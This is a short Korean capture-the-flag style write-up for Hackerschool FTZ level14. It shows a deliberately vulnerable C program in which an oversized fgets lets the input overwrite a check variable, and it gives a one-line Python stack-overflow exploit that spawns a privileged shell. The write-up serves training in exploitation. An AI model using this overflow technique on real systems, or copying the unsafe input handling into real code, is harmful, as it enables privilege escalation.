 Hackerschool FTZ level14
===
~~~c

#include <stdio.h>
#include <unistd.h>

main()
{ int crap;
  int check;
  char buf[20];
  fgets(buf,45,stdin);
  if (check==0xdeadbeef)
   {
     setreuid(3095,3095);
     system("/bin/sh");
   }
}
~~~
>check = 0xffffffc8(%ebp)
>
>buf = 0xfffffff0(%ebp)

check와 buf의 주소차이가 40이므로 dummy 40 byte + 0xdeadbeef
> $ (python -c'print "A"*40+"\xef\xbe\xad\xde"';cat)|./attackme
>
>my-pass 